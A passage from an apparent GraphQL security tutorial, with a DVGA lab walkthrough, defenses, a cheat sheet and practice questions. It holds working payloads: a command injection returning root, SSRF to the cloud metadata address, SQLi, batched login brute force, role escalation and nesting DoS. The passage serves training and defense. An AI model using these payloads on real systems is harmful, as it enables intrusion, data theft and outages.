        {"name": "Query", "kind": "OBJECT"},
        {"name": "Mutations", "kind": "OBJECT"},
        {"name": "PasteObject", "kind": "OBJECT"},
        {"name": "OwnerObject", "kind": "OBJECT"},
        {"name": "UserObject", "kind": "OBJECT"},
        {"name": "CreatePaste", "kind": "OBJECT"},
        {"name": "ImportPaste", "kind": "OBJECT"}
      ]
    }
  }
}
```

Introspection is enabled — pull the full schema into InQL (`inql -t http://localhost:5013/graphql -o dvga_out`) and browse the operations. You'll find queries like `pastes`, `paste(id)`, `systemUpdate`, `systemDiagnostics`, and mutations `createPaste`, `importPaste`, `deletePaste`, `uploadPaste`.

### Step 2: Sensitive data / IDOR on pastes

DVGA's `pastes` query exposes "private" pastes and owner info that shouldn't be public:

```bash
curl -s http://localhost:5013/graphql -H 'Content-Type: application/json' -d '{
  "query": "query { pastes { id title content public owner { name } ipAddr userAgent } }"
}' | python3 -m json.tool
```

```json
{
  "data": {
    "pastes": [
      {"id":"1","title":"Secret","content":"admin creds: root/toor",
       "public":false,"owner":{"name":"DVGAUser"},
       "ipAddr":"172.17.0.1","userAgent":"Mozilla/5.0"}
    ]
  }
}
```

Even non-public pastes and the owner's IP/UA leak — a BOLA/sensitive-data-exposure combo. Individual object access via `paste(id: N)` lets you walk every ID.

### Step 3: OS command injection via systemDiagnostics

DVGA exposes a diagnostics resolver that shells out — a command-injection sink:

```bash
curl -s http://localhost:5013/graphql -H 'Content-Type: application/json' -d '{
  "query": "query { systemDiagnostics(username: \"admin\", password: \"admin\", cmd: \"id\") }"
}'
```

```json
{"data":{"systemDiagnostics":"uid=0(root) gid=0(root) groups=0(root)"}}
```

Arbitrary command execution as root inside the container — full compromise of the target.

### Step 4: Batching-based brute force

DVGA accepts batched operations. Pack multiple `createPaste`/login-style attempts (or, on a real target, password guesses) into one request via aliases:

```bash
curl -s http://localhost:5013/graphql -H 'Content-Type: application/json' -d '{
  "query": "mutation { a1: createPaste(title:\"t\", content:\"1\"){ paste{id} } a2: createPaste(title:\"t\", content:\"2\"){ paste{id} } a3: createPaste(title:\"t\", content:\"3\"){ paste{id} } }"
}'
```

The single request returns `a1`, `a2`, `a3` results — proving many operations execute per HTTP request, the primitive behind rate-limit bypass.

### Step 5: DoS via deep nesting (lab only)

DVGA has no depth limit, so a recursive paste→owner→pastes query multiplies work:

```graphql
query {
  pastes {
    owner { pastes { owner { pastes { owner { pastes { id } } } } } }
  }
}
```

Watch response time climb as depth increases — demonstrating the need for `graphql-depth-limit`. Keep depth modest in a shared lab so you don't wedge the container.

### Step 6: Confirm suggestions leak (introspection-off scenario)

Toggle DVGA into a mode with introspection off (its "hardened" settings), then confirm the suggestion leak still maps fields:

```bash
curl -s http://localhost:5013/graphql -H 'Content-Type: application/json' -d '{
  "query": "query { systemUpdate2 }"
}'
# -> {"errors":[{"message":"Cannot query field \"systemUpdate2\" on type \"Query\". Did you mean \"systemUpdate\"?"}]}
```

Then run Clairvoyance to rebuild the schema from those messages:

```bash
clairvoyance -o dvga_schema.json -w graphql-wordlist.txt http://localhost:5013/graphql
```

You've now reproduced the full attacker workflow — fingerprint → schema recovery (with and without introspection) → BOLA → injection → batching → DoS.

---

## Part 12: Detection & Defense Angle

Everything above is offense; this section consolidates how blue teams detect and prevent it. A well-defended GraphQL API neutralises most of this chapter.

### Prevention (build-time)

- **Authorization in every resolver, centralised.** Enforce authz at the data layer or via a schema directive (`@auth(requires: ROLE)`) applied by a validation rule, so no resolver can forget. Never rely on the frontend not requesting a field. This kills BOLA/BFLA (Part 6) — the highest-impact class.
- **Disable introspection *and* field suggestions in production** — both. Introspection-off alone leaks via suggestions (Part 5). In Apollo, disable `introspection` and set the plugin to strip "did you mean". Treat this as defense-in-depth, *not* a substitute for fixing authz.
- **Query cost/complexity analysis + depth limiting.** Assign each field a cost, set a per-query budget, cap depth, cap aliases and directives. Libraries: `graphql-depth-limit`, `graphql-query-complexity`, `graphql-cost-analysis`, Apollo `maxAliases`/`maxDepth`. Stops nesting DoS and alias amplification (Part 9).
- **Cap or disable batching**; rate-limit by *resolved operations/field cost*, not HTTP requests. Kills the batching bypass (Part 8).
- **Persisted queries / allow-listing.** In production, only accept a pre-registered set of query hashes (Apollo APQ / relay persisted queries). Arbitrary attacker queries simply can't run — this single control neuters most of the chapter.
- **Parameterised DB access & input validation in resolvers.** GraphQL doesn't stop SQLi/NoSQLi/SSRF/command injection (Part 7) — resolvers must use parameterised queries, allow-list URLs/hosts, and never shell out with user input.
- **Require a custom header or CSRF token; reject `GET` mutations and non-JSON content types.** Stops GraphQL CSRF (Part 10).
- **Lock down mutation `input` types** — declare exactly the writable fields; never spread arbitrary input into DB updates. Stops mass assignment (Part 10).

### Detection (run-time)



- **Log the parsed operation, not just the URL.** Every request hits `/graphql`, so URL logs are useless. Capture `operationName`, query depth, alias/field count, computed cost, and the operation text.
- **Alert on introspection in production** (`__schema`/`__type` in the query body) — legitimate prod clients using persisted queries never introspect.
- **Alert on high alias/batch counts and high depth/cost** — signatures of brute-force (Part 8) and DoS (Part 9).
- **Correlate auth failures *within* a single request** — 4000 failed logins in one HTTP call is invisible to per-request failure counters unless you inspect aliases.
- **WAF/gateway with GraphQL awareness** (e.g. a GraphQL-parsing proxy) rather than a generic HTTP WAF that sees one opaque POST.

### Real-world context

Disclosed bounty reports and CVEs recurringly show: introspection left on in production exposing internal admin operations; nested-field BOLA leaking PII (colleague emails, private notes) despite locked-down top-level queries; batching used to bypass OTP throttling; and missing depth limits enabling DoS. The pattern is consistent — the platform is fine; the *per-resolver authorization and the missing cost/depth controls* are where teams fail.

---

## Part 13: Final Revision / Summary

- **GraphQL = one endpoint, client-chosen fields, strongly typed schema, per-resolver logic.** The schema is the attack surface; recover it first.
- **Recon:** find the endpoint (not always `/graphql`), fingerprint the engine with **graphw00f**, then recover the schema — full **introspection** if on, **Clairvoyance** + field suggestions if off. Render it with **InQL**.
- **#1 bug class is authorization** — **BOLA** (read others' objects via ID/nested paths) and **BFLA** (call admin mutations as a normal user). Test with two accounts and exhaustive path enumeration.
- **Injection rides on arguments** — SQLi, NoSQLi (`$ne`/`$gt` via JSON scalars), SSRF (URL args → metadata), and command injection. The transport changed; the bug didn't.
- **Batching + aliases** pack hundreds of operations into one HTTP request → **rate-limit / brute-force / OTP bypass**. Test both alias-batching and array-batching.
- **DoS** via deep nesting, alias/field duplication, directive overloading — only in-scope/lab, never blind on production.
- **Also test:** GraphQL **CSRF** (non-JSON content types, GET mutations), **info disclosure** (errors, suggestions, tracing), and **mass assignment** via input objects.
- **Defense that actually works:** persisted queries/allow-listing, centralised authz (schema directives), cost+depth+alias limits, batch caps, cost-based rate limiting, disabled introspection *and* suggestions, and injection-safe resolvers.

---

## Part 14: Cheat Sheet / Quick Reference

**Endpoint discovery paths**

```
/graphql  /graphiql  /playground  /console  /api/graphql
/v1/graphql  /graphql/v1  /query  /graphql.php  /.netlify/functions/graphql
```

**Confirm + introspect**

```graphql
{ __typename }                                   # is this GraphQL?
query { __schema { queryType { name } } }        # is introspection on?
# then send the full IntrospectionQuery (fields(includeDeprecated:true))
```

**curl skeleton**

```bash
curl -s https://t/graphql -H 'Content-Type: application/json' \
  -d '{"query":"query($id:ID!){user(id:$id){email}}","variables":{"id":"2"}}'
```

**Tooling**

```bash
graphw00f  -f -d -t URL          # fingerprint engine + find endpoint
inql       -t URL -o out         # introspect + generate queries (Burp ext too)
clairvoyance -o s.json -w wl URL # rebuild schema w/o introspection
get-graphql-schema URL > s.gql   # introspection JSON -> SDL
```

**Attack quick-payloads**

```graphql
# BOLA / IDOR
query { user(id:"<victim>") { email phone } }
query { post(id:"1"){ author { email } } }          # nested path

# BFLA
mutation { updateUserRole(userId:"<victim>", role: ADMIN){ id } }

# Injection
query { search(term:"x' OR SLEEP(5)-- -"){ id } }   # SQLi (time)
# NoSQLi variables: { "p": { "$ne": null } }
mutation { importAvatar(url:"http://169.254.169.254/latest/meta-data/"){ok} }  # SSRF
query { ping(host:"127.0.0.1; id"){ output } }      # cmd injection

# Batching (rate-limit / brute bypass)
mutation { a1:login(email:"v",password:"p1"){token} a2:login(email:"v",password:"p2"){token} }

# DoS (lab/in-scope only)
query { user(id:1){ posts{ author{ posts{ author{ posts{ id } } } } } } }

# Mass assignment
mutation { updateProfile(input:{ isAdmin:true, role:"ADMIN" }){ id role } }
```

**CSRF test toggles:** replay mutation as `Content-Type: application/x-www-form-urlencoded`, `text/plain`, and as `GET ?query=` — if any works with cookie-only auth → CSRF.

**Common pitfalls (attacker side)**

- Stopping when introspection is "off" — use graphw00f + Clairvoyance + suggestions.
- Testing only top-level queries — nested resolvers hold most BOLAs.
- Forgetting `includeDeprecated: true` — deprecated fields are the soft spots.
- Rate-limited? Batch it — the throttle likely counts requests, not operations.
- Assuming `/graphql` is the only path — fuzz the alternatives.
- Escaping SQL/JSON layers wrong — the payload must be a valid JSON string carrying the metacharacters.

---

## Part 15: Practice Labs & Resources

Train each skill in this chapter on purpose-built targets:

- **DVGA — Damn Vulnerable GraphQL Application** (`dolevf/dvga`, Docker): the primary lab used in Part 11. Covers introspection, IDOR/sensitive data, command injection, batching, DoS, and a hardened mode to practice the introspection-off workflow.
- **PortSwigger Web Security Academy — GraphQL API vulnerabilities** (free): labs on accessing private posts via introspection, finding a hidden GraphQL endpoint, bypassing brute-force protection with aliases, and performing CSRF over GraphQL. The single best structured path.
- **HackTheBox / TryHackMe GraphQL rooms** — search for GraphQL-tagged machines/rooms (e.g. THM "GraphQL" room) to practice endpoint discovery and injection in a boxed environment.
- **graphw00f fingerprint lab** — practice engine fingerprinting against the intentionally vulnerable engines in the graphw00f test suite.
- **Clairvoyance** against DVGA in hardened mode — reconstruct a schema with introspection disabled.
- **HackerOne / Bugcrowd disclosed reports** — read public GraphQL disclosures (GitLab, HackerOne, Shopify) for real BOLA-through-nested-fields and batching-bypass writeups to model your own reports on.
- **Reading:** the **OWASP API Security Top 10** (API1 BOLA, API5 BFLA map directly onto this chapter) and the **OWASP GraphQL Cheat Sheet** for the definitive defense checklist.

**Practice questions**

1. An endpoint returns `{"errors":[{"message":"Cannot query field \"emial\" on type \"User\". Did you mean \"email\"?"}]}` but the full introspection query returns `null`. What is enabled, what is disabled, and which tool reconstructs the schema from here?
2. A login mutation is rate-limited to 5 attempts/minute per IP, yet you land 3000 guesses in one minute. Explain the exact mechanism and write the query shape that achieves it.
3. `me { email }` requires auth and returns only your own address, but `project(id:X){ members { email } }` returns every member's email with no membership check. Name the vulnerability class and describe the two-account test that proves it.
4. You find `importDocument(url: String!)` as a mutation. List three distinct classes of bug you'd test it for and one payload each.
5. Design the minimal set of server-side controls that would simultaneously defeat: introspection recon, alias brute-force, nesting DoS, and BOLA. (Hint: one control — persisted queries — plus centralised authz — covers most of it.)
